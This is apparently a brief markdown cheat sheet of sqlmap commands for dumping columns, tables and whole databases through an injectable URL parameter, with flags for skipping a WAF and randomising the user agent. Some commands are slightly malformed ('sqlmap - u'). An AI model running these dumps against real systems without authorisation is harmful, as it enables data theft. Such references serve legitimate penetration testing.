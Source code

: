 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**   
                        
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump`
 **To Fetch Only All Column & Its Data**          
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump`

 **To Fetch Entire Database's Data** 		     
 `sqlmap - u "url?prm=" -p prm -D dbname  --dump`

 **To Fetch All Databases**
 `sqlmap - u "url?prm=" -p prm --dbs  --dump` 
 or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
* Parameters    **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
* Optimised Url **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**


